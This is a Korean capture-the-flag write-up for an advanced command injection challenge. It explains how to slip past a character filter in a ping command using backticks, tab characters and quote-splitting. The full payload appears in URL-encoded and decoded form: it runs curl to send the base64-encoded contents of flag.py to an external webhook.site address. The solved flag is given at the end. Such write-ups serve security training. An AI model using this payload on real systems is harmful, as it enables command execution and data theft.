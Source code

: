 # CMDI (Adv)
CMDI 문제와 똑같지만 필터링이 몇개 더 추가된 문제이다.

이번 문제의 필터링은 ['[','$','cat','flag.py','"','*','?',' ']이다.

`cmd = f'ping -c 3 "{host}"'` 파이썬에서의 입력은 이렇게 되는데, Dquote(")가 필터링 되어 문자열 안에 항상 남아있어야 하는 문제이다.

문자열 안에서 Command를 실행할 수 있는 방법은 여러가지가 있는데, 가장 유명하고 좋은 것은 $()이다.

하지만 Dollar($)가 필터링 되어 사용할 수 없다.

그래서 찾아낸 것이 Back quote(`)이다. 문자열 안에서 Back quote 안에 Command를 작성할 경우 같이 실행된다.

단, 원래 실행될 명령어가 실패할 경우 실행되지 않는다.

```
URL Encode:
8.8.8.8`curl%09https://webhook.site/webhook-id%09-d%09\`c'a't%09fl'a'g.py|base64\``

URL Decode:
8.8.8.8`curl	https://webhook.site/webhook-id	-d	\`c'a't	fl'a'g.py|base64\``
```

위와 같이 코드를 작성하였다.
 
White Space가 필터링이기 때문에 `%09`(Tab)으로 우회하였고, curl에서 POST로 flag 값을 전달하기 위해 `cat flag.py`를 Back quote 내에서 한번 더 선언했어야 했는데 이미 Back quote 안에서 명령어를 실행 중이였기에 \\`로 우회하였다. 그리고 base64 encoding을 하여 flag 값을 전달받았다.

## Flag
flag{are_you_the_master_of_command_injection?}